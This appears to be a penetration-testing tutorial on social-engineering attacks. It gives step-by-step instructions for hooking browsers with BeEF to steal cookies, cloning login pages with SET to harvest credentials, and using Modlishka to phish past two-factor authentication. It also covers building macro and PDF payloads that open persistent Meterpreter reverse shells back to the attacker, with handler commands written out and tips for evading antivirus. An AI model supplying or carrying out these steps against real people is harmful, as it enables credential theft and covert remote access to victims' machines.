







>> Practical Security Assessment (Penetration Testing) - Social Engineering$ beef-xss
As you can see in the image, to connect to the BeEF, open the following link in your browser: http://127.0.0.1:3000/ui/panel
Username/pass: beef/beef
BeEF provides you with a Javascript hook that you make your target to load, one way or the other. When your target's browser loads this hook, it automatically connects back to your server and allows you to basically do almost anything you want within the browser: steal cookies, show the victim any pop window that could help you gain credentials, redirect the victim to somewhere you want, etc. The hook is located at http://your_IP_address:3000/hook.js

If the victim navigates to a website where this Javascript is loaded, nothing can stop you from gaining some juicy info from the victim. So, when the victim opens that kind of page, you will see a new connection in your BeEF website:

There are a lot of attacks you can perform. Especially check out social engineering ones.

Show the user "Facebook" pop up window:


Get the credentials:

If you own the cookies of a user, you can actually pass them as if you are that user. Check it out here.
The best phishing tool I have seen is Modlishka. It works as a proxy server. You set it up on your server with a domain name of your own. If a user browsers this domain name, the user will see a page that not only looks identical to the real one but also shows 2-factor authentication requests and can redirect to the real website. Really, really powerful.
Some other common tools for managing phishing campaigns:
Run the following command:
$ setoolkitYou will see SET menu. To clone a website and harvest credentials from a legit looking site, select the following:
Next, you will be asked to set up the IP address of your machine where you will host this cloned website with the login page. By default, it should already show your IP address (most probably, it will be your local IP address). Afterwards, you will be asked to enter the URL to clone.
Wait some time and when it is all set and done, the cloned website will appear in /var/www/ The your victims type something into those fields, you will find their data/credentials in the file called harvester within the same folder /var/www/.
The best way to avoid AV is to make your payload in Word or Excle through VBA/VBS manually (and wrapping it all up with .hta file). However, there are definitely tools out there that can help you out with that. For example, Generate-Macro.ps1
To start the process, run powershell from the command line prompt:
powershell -exec bypassAfterwards, locate the downloaded Generate-Macro.ps1 file and run it:
\.Generate-Macro.ps1Enter your IP address (local), port number 443, and the name of the document without the file extension. Then, select the attack method (1, Meterpreter Shell with Login Persistence) and Payload (1, Meterpreter Reverse HTTPS). The file will be saved in the same folder with .xls extension.
This is basically the file, which when opened, will connect back to your server and provide full command line access if the victim enables the Macro when prompted to do so. Therefore, you need to run a meterpreter HTTPS listener (your server that will listen for the victims connections). To do that, we will use a standard Meterpreter Handler from Metasploit Framework in Kali:
$ msfconsole
msf> use exploit/multi/handler
msf> set PAYLOAD windows/meterpreter/reverse_https
msf> set ExitOnSession false
msf> set LHOST your_IP_address
msf> set LPORT 443
msf> exploit -jThis script also creates a persistent VBS script, launching it at startup, which means that it will auto-connect to your machine even when the victim reboots it.
Run Social Engineering Toolkit in Kali.
$ setoolkitSelect the following options from the menu: (1) Social-Engineering Attacks (3) Infection Media Generator (1) File-Format Exploits
Enter your IP address. Then:
(13) Adobe PDF Embedded EXE Social Engineering (2) Use built-in BLANK PDF (or you can create your own PDF and use that one, most fun!) (2) Windows Meterpreter Reverse_TCP
Default LHOST is good to go, it should be your IP address. Default PORT is good to go as well.
Let SET create a listener right now (yes). The listener will be similar to the one that we created in the Malicious Microsoft Office Payloads except the line with setting the PAYLOAD and PORT (will be the same as was set by default in this section):
msf> set PAYLOAD windows/meterpreter/reverse_tcp
msf> set LPORT the_port_that_was_set_by_default